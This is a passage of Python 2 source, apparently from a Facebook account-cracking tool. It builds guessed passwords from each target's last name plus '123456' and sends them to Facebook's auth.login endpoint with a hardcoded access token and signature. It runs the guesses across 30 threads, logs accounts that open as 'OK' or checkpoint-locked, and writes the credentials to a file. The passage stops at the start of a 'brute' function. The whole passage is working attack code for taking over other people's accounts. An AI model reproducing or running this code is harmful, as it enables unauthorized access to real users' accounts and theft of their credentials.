 															pass7 = b['last_name'] + '123456'

															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

															q = json.load(data)

															if 'access_token' in q:

																print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass7 + ' 👽 ' + b['name']

																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:

																	print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass7 + ' 👽 ' + b['name']

																	cek = open("out/CP.txt", "a")

																	cek.write(user+"|"+pass7+"\n")

																	cek.close()

																	cekpoint.append(user+pass7)

		except:																		

			pass

		

	p = ThreadPool(30)

	p.map(main, id) 

	

	print '\033[1;31;40m[✓] Process Has Been Completed\033[1;96m....'

	print "\033[1;32;40m[+] Total OK/\x1b[1;93mCP \033[1;91m: \033[1;91m"+str(len(oks))+"\033[1;31;40m/\033[1;36;40m"+str(len(cekpoint))

	print '\033[1;34;40m[+] CP File Has Been Saved : save/cp.txt'

	print """

\033[1;31;40m ●════════════════════════◄►════════════════════════●

           """

	raw_input("\n\033[1;96m[\033[1;97mExit\033[1;96m]")

	super()

def brute():

    os.system('clear')

    try:
